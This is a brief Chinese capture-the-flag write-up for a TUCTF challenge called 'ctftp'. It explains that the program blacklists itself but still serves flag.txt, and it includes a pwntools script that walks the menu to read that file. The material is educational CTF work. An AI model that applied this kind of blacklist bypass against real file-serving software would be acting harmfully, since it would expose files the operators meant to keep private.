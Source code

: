 ### ctftp

> [附件](./ctftp)

在bss段可以看到程序本身被添加到黑名单了，但是可以直接读flag.txt

[Exploit script:](./c2.py)

```python
from pwn import *

e = ELF('ctftp')
p = process('ctftp')
#p = remote('chal.tuctf.com', 30500)

p.sendlineafter(': ', 'xxx')
p.sendlineafter('> ', '2')

p.sendlineafter(': ','flag.txt')
p.interactive()
```

